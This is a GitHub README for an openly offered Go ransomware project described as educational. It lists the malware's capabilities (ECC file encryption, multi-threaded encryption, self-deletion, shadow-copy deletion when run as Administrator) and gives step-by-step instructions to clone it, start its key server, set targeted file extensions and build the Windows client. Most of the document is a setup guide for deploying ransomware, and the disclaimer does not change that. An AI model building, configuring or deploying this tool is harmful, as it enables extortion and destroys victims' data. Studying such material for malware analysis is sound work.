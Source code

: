 # Ransomware-For-Study

[简体中文](./README-zh-cn.md)

Project Description:

This is a basic ransomware project framework for educational purposes, designed to:
- Provide insights for cybersecurity professionals combating malware
- Offer beginners in malware analysis a basic ransomware attack workflow

**WARNING:**
> 
    - This project is FOR EDUCATIONAL PURPOSES ONLY
    - STRICTLY PROHIBITED for any illegal use
    - The author bears no responsibility for misuse


---

## Key Features

1. Mutex creation to prevent multiple instances
2. ECC encryption with separate public/private key storage (only public key exposed during encryption)
3. Multi-threaded file encryption
4. Post-encryption notepad popup functionality
5. Self-deletion after encryption

---

**TODO (Pending Features):**

~~1. Volume shadow copy deletion~~

2. Desktop wallpaper replacement (resource section attempted but failed)
3. Multiple encryption method implementations
4. Multi-folder polling

~~5. HTTPS for public key transmission~~

## Installation

**Important:**
This project only works on Windows OS!

### 1. Download Project
```bash
git clone https://github.com/CuteCuteYu/RansomwareFS
```

### 2. Initialize Project
```bash
cd RansomwareFS
go mod tidy
```

### 3. Start Public Key Server

**Recommendation:** Replace the SSL certificates with ones from other sources before starting

Certificate location:
`ssl-cert` folder

```bash
go run ./server.go ./handler.go
```

### 4. Configuration

#### 4.1 File Extensions and Encryption Threads
`./client/enc_file/enc_file.go`
```go
const (
	FileExtension = ".exe"
	ThreadNumber  = 10 // Number of threads to use for encryption
)
```

#### 4.2 Server Address for Public Key Retrieval
`./client/get_pub_key/get_pub_key.go`
```go
const (
	ServerAddr = "localhost"
	ServerPort = "8080"
)
```

#### 4.3 Mutex Name Configuration
`./client/mutex/mutex.go`
```go
mutexName := "Global\\mypkg_mutex"
```

### 5. Run or Build Client

#### 5.1 Direct Run
```bash
go run ./cmd/client/main.go
```

#### 5.2 Build Executable

(run as Administrator can use delete_shadow!)

```bash
go build ./cmd/client/main.go
